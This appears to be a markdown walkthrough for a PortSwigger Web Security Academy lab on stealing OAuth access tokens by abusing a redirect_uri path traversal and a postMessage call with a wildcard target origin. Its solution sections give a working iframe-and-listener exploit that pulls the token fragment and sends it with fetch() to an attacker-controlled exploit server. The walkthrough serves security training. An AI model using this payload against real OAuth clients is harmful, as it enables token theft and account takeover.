

# Lab: Stealing OAuth access tokens via a proxy page

- [Link](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

## Tips

Maybe you can divide this lab in two or three parts. The first one is to manipulate the `redirect_uri` which is quite similar to how is done in the [Stealing OAuth access tokens via open redirect](../stealing-access-token-via-open-redirect).

The second part is to find where is the other vulnerability in the client app. This is the most important part, since you will exploit the vulnerability found to steal the access tokens.

And how we can do that? Exploring, of course! Try to see if there's any page that maybe do something exploitable... maybe some blog post page...

<details>
<summary>Click to expand!</summary>

After you enter a blog post (it can be any), look at the JS retrieved. See if there's anything that can be exploitable. Or, if it's not straightforward to you, search for the methods, try to find some documentation that could be interesting!

<details>
<summary>Lost? Click here!</summary>

One thing that ring a bell for me was the method [`postMessage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage). This is a thing that you use when you need communication between two components (like a page and an embedded iframe). The docs explictly says:

> **Always provide a specific targetOrigin, not \*, if you know where the other window's document should be located. Failing to provide a specific target discloses the data you send to any interested malicious site.**

In other words, if you don't specify a `targetOrigin` (using `*`), you can potentially disclose some data to a malicious site that could be listening to the messages!

And that's exactly what we'll exploit!

</details>
  
</details>

Congrats if you found the vulnerability! :tada: :tada:

Things are getting interesting, right?! :laugh:

Ok, you found it, but how can we exploit it? Well, the first thing is that we need to listen to the dispatched message. That's quite easy, but if you still need some help, click below!

<details>
<summary>Click to expand!</summary>

[Check this](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#the_dispatched_event)

</details>

After that, it is exploration time! :pirate_flag:


Here, we don't need to explore the target site anymore, but actually what we could do in our exploit server!

<details>
<summary>Things to try?</summary>

Remember how the `postMessage` works? Well, we could setup an iframe in our exploit server so that we can receive the message content from it. Using the known OAuth server vulnerability and the endpoint that does the `postMessage`, setup it in your exploit server:

```html
<iframe src=https://oauth-server.com/auth?client_id=client-id&redirect_uri=https://target.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-nonce&scope=openid%20profile%20email></iframe>
```

Now, that you have the iframe, we need to understand more the message structure, so we try to log its content:

```html
<script>
window.addEventListener("message", function(e) {
    console.log(e)
}, false)
</script>
<iframe src=https://oauth-server.com/auth?client_id=client-id&redirect_uri=https://target.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-nonce&scope=openid%20profile%20email></iframe>
```

Though, the best thing that we can do is:

```js
var a
window.addEventListener("message", function(e) {
    a = e
}, false)
<iframe src=https://oauth-server.com/auth?client_id=client-id&redirect_uri=https://target.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-nonce&scope=openid%20profile%20email></iframe>
```

That will allow us to play in our Dev Tools for further exploration!

<details>
<summary>The possible solution</summary>

With a little bit of playing in Dev Tools, we can find:

```js
query = a.data.data.split("#").pop()
fetch(`https://exploit-ac1c1f4a1ec1aaa3c0030277012a0011.web-security-academy.net/exploit?${query}`)
```

And that's exactly what we need to build our final exploit:

```js
<script>
window.addEventListener("message", function(e) {
	var query = e.data.data.split("#").pop()
	fetch(`https://exploit-server.web-security-academy.net/?${query}`).then(console.log)
}, false)
</script>
<iframe src=https://oauth-server.com/auth?client_id=client-id&redirect_uri=https://target.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-nonce&scope=openid%20profile%20email></iframe>
```

</details>

</details>

After all this playing, deliver the exploit to your victim and use the access token to finally!

:tada: :tada: :tada: :tada: :tada:

